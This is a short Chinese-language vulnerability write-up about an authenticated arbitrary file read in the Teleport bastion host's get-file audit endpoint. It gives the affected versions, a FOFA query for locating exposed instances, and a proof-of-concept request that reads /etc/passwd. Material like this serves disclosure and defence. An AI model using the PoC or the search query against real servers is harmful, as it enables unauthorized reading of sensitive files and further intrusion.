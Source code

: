 # Teleport堡垒机 get-file 后台任意文件读取漏洞

## 漏洞描述

Teleport堡垒机 get-file接口存在后台任意文件读取漏洞，攻击者利用任意用户登录漏洞后可以获取后台权限，再进一步利用任意文件读取获取服务器上的敏感文件

## 漏洞影响

```
Teleport Version <= 20220817
```

## FOFA

```
app="TELEPORT堡垒机"
```

## 漏洞复现

登录页面

![image-20220824134958109](./images/202208241355622.png)

登录后使用POC验证

```
/audit/get-file?f=/etc/passwd&rid=1&type=rdp&act=read&offset=0
```

![image-20220824135554806](./images/202208241355866.png)